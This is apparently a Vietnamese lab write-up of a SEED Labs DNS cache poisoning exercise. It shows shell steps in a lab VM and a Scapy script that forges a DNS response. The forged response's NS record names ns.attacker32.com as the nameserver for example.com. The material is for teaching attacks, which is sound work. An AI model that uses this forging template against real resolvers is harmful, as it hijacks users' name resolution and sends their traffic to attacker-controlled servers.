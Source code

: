 - Lưu thông tin vào `gen_query.py` và copy vào `attacker`
```bash
[12/17/24]seed@VM:~/.../attack$ docker cp gen_query.py ce:/tmp
[12/17/24]seed@VM:~/.../attack$
```

- Kiểm tra trong attacker container, ta có:
```bash
root@VM:/tmp# ls
gen_query.py
```

- Tạo thông điệp truy vấn
```bash
root@VM:/tmp# python3 gen_query.py
root@VM:/tmp# ls
gen_query.py  ip_req.bin
```

## III. Tạo thông điệp DNS response giả mạo.
Trong kịch bản tấn công DNS Cache Poisioning, khi máy tấn công gửi yêu cầu phân giải một tên miền không tồn tại. Điều này làm cho `local-dns-server` gửi đi yêu cầu phân giải tên miền không tồn tại đó tới máy chủ tên miền trên Internet. 

Trong khi đó, máy tấn công tiếp tục gửi thông điệp giả mạo tới máy mục tiêu. Thông điệp giả mạo này là thông điệp trả lời từ máy chủ tên miền trên Internet mà `local-dns-server` đang gửi truy vấn đến trước đó.

### 1. Template
Thông điệp dns response này giả mạo thông tin về bản ghi NS, cho biết máy chủ tên miền của `example.com` là `ns.attacker32.com`.

```py
#!/usr/bin/python
from scapy.all import *

name = '<Domain_name>'
domain = 'example.com'
ns = '<Fake_name_server>'

Qdsec = DNSQR(qname=name)
Anssec = DNSRR(rrname=name, type='A', rdata='1.2.3.4', ttl=259200)
NSsec = DNSRR(rrname=domain, type='NS', rdata=ns, ttl=259200)
dns = DNS(id=0xAAAA, aa=1, rd=1, qr=1,qdcount=1, ancount=1, nscount=1, arcount=0, qd=Qdsec, an=Anssec, ns=NSsec)

ip = IP(dst="<Destination_IP_Address>", src="<Source_IP_Address>")
udp = UDP(dport=<Destination_Port>, sport=<Source_Port>, chksum=0)

reply = ip/udp/dns

with open('ip_resp.bin','wb') as f:
	f.write(bytes(reply))
```
